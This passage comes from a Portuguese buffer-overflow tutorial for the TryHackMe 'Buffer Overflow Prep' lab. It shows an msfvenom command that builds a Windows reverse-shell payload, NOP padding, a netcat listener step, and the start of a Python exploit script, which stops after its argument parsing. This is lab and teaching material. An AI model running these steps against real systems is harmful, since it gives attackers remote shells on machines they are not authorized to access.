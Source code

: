 Lembre-se de inverter os bytes porque o **Windows usa Little Endian**, ou seja, o endereço `0x62501205` deve ser escrito como `\x05\x12\x50\x62`.

---

### 📌 Passo 5: Testar o Exploit
Agora é só **reiniciar a aplicação** e testar seu exploit para ver se o fluxo de execução realmente pula para sua shellcode.

---
---

## 🎯 Gerando o Payload
Criamos um shell reverso com `msfvenom`:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<SEU_IP> LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```

E adicionamos ao exploit:
```python
payload = (
  "\xfc\xe8\x82\x00\x00\x00\x60..."  # (Shellcode gerado)
)
```

Incluímos **NOPs** para ajudar na execução:
```python
padding = "\x90" * 16
```

---

## 📌 Execução do Exploit

1. No Kali, inicie um listener para capturar a shell reversa:
   ```bash
   nc -lvnp 4444
   ```
2. Execute o exploit:
   ```bash
   python3 exploit.py
   ```
3. Se tudo estiver correto, você terá acesso ao sistema remoto! 🎉

---

## 📚 Referências
- [TryHackMe - Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep)
- [Pentest Cheatsheets - Tib3rius](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)

  Script exploit att
```bash
import socket
import argparse

# Configuração dos argumentos da linha de comando
parser = argparse.ArgumentParser(description="Exploit de Buffer Overflow com argumentos personalizáveis")
parser.add_argument("--ip", required=True, help="Endereço IP do alvo")
parser.add_argument("--port", type=int, default=1337, help="Porta do alvo (padrão: 1337)")
parser.add_argument("--prefix", default="OVERFLOW10 ", help="Prefixo do buffer (padrão: 'OVERFLOW10 ')")
parser.add_argument("--offset", type=int, default=0, help="Tamanho do overflow (padrão: 0)")
parser.add_argument("--postfix", default="", help="Sufixo do payload (padrão: vazio)")
```